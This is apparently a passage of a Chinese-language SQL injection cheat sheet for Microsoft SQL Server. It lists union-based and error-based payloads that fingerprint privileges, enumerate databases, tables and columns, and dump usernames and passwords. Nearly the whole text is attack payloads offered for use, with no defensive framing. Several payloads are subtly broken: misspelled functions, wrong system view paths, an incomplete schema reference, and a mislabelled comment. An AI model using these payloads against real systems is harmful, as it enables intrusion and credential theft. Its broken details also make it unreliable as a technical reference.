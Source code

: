 ```sql
#获取所有数据
?id=0'union select top 1 1,username,password from users where username not in (select top m username from users) and password not in (select top m password from users) --+
```

****

#### 报错注入

```sql
#获取当前数据库名
?id=1 and db_name()>0 --+
?id=1 and db_name()=1 --+

#判断当前服务器角色是否有高权限
?id=1 and 1=(select is_srvrolemember('sysadmin')) --+

#判断当前数据库角色是否为DB_OWNER权限
?id=1 and 1=(select is_member('db_owner')) --+ 

#获取当前用户名字
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取所有数据库名
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取数据库个数
?id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+

#一次性获取所有数据库
?id=1 and 1=(select quotenam(name) from master.sys.dbo.databases FOR XML PATH('')) --+

#获取第一个表名
?id=1 and 1=(select top 1 table_name from information_schema.tables) --+

#获取其它表名
?id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema)) --+

?id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+

#获取当前字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name="users") --+

#获取所有字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in('id','username','password'))--+

?id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+

#获取数据
?id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+

?id=1 and 1=(select password from users where id=1) --+

#其它函数注入
?id=1 and 1=(select cast(name as int) from sys.databases where database_id=1)--+

?id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```
